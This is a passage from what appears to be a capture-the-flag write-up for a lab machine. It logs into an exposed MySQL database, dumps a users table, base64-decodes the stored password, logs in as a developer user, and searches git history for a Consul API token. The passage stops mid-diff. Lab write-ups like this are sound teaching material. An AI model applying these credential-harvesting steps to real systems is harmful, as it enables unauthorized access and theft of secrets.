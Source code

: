 
## Connecting to the MySQL database
as we know the db is exposed to over the network, so at this stage nothing prevents us from connecting directly  
```sql
mysql -u grafana -p -h example.org -D grafana
```

```sql
MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```
the password isn't even hashed that's embarassing
```bash
printf 'YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg=='|base64 -d
anEnglishManInNewYork027468
```
```bash
developer@ambassador:~$ wc -c user.txt
33 user.txt
```

## Forraging git history for tokens

```bash
sudo -l
[sudo] password for developer:
Sorry, user developer may not run sudo on ambassador.
```
the git config in the developer users's home points to /opt/my-app where the whacky app thing resides 
```bash
cat .gitconfig
[user]
        name = Developer
        email = developer@ambassador.local
[safe]
        directory = /opt/my-app
```

so we can look at the git logs in there 
```bash
 git log --oneline
33a53ef (HEAD -> main) tidy config script
c982db8 config script
8dce657 created project with django CLI
4b8597b .gitignore
```
and get a token to talk to the consul API
```bash
git show 33a53ef
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
```